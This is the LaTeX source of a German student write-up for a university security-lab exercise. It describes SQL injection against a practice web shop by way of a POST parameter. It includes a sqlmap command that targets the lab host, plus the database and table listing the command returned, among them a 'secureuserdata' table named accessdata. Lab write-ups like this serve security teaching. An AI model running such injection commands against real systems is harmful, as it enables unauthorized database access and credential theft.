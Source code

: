 \documentclass[10pt,a4paper]{article}
\begin{document}
\subsection*{b)}
Diese Aufgabe haben wir auf zwei Wegen gelöst. Einmal über das Tool SQLMap und einmal haben wir die entsprechenden SQLInjections per Hand zusammengebaut.


\subsubsection*{Angriff mittels SQLMap}
Wir sind zunächst mal im Browser mal auf den Shop gegangen und haben geschaut, was er überhaupt macht. Man musste unten Nmap oder Wireshark auswählen und dann auf "`Details ansehen"' klicken. Hierdurch wurde man auf die Seite "`details\_tools.php"' weitergeleitet und bekommt ein paar Daten über das ausgewählte Tool.

Durch das Firefox-plugin "`Tamper Data"' konnten wir herausfinden, dass als Post beim Wechsel auf die "'details\_tools.php"' der wert tool=1 (für Nmap) bzw tool=2 (für Wireshark) übergeben werden. Dies können wir ausnutzen, um mit sqlmap die Datenbank(en) anzuschauen. Hierfür benutzen wir zunächst folgenden Befehl:

\begin{verbatim}
sqlmap -u hackshop.seclab.uni-paderrborn.de/details\_tools.php --data=tool=1 --tables
\end{verbatim}

Dieser Befehl gibt uns sowohl die vorhandenen Datenbanken, als auch die dazu gehörigen Tabellen:

\begin{verbatim}
Database: webshop
[2 tables]
+---------------------------------------+
| artikel                               |
| logs                                  |
+---------------------------------------+
\end{verbatim}

\begin{verbatim}
Database: secureuserdata
[1 table]
+---------------------------------------+
| accessdata                            |
+---------------------------------------+
\end{verbatim}
\end{document}
